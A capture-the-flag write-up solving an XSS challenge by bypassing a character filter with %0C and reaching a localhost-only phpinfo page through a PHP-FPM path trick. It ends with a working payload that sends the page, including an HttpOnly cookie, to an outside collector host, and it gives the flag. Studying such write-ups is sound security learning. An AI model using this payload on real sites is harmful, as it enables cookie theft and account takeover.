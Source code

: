 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **Flag is in the bot.js cookie with a httponly attribute this mean that JS cannot access the cookie**

  **1-index.php**
  
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how ?**

  **the main problem is in the Enhanced_Trim function that replace the defined char set with "" so how to bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this dosenot have any value since we cannot use JS to steal the cookie bc the httponly attribute on the cookie**

  **the solution was in the info.php that view the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**
  
  **when a user vist the phpinfo page it reflect its cookie in response even the HttpOnly ones like this**

  ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/fbce6706-e779-43e4-be72-60b4c27ef1cd)


  **so now we can make the bot visit the info.php page then take the response and send it to our server right ? no it will not work bc the nginx.conf lets look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot dosent see the localhost of the challange so it cannot access it)**

  **that soloution was in the last part of the configuration that include and run any file endwith .php so we can it to access the info.php right ?**

  **i found this on hacktricks that made me able to bypass the validation and accss the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we cann access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot vist the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```
`flag -> idek{Ghazy_N3gm_Elbalad} `



  
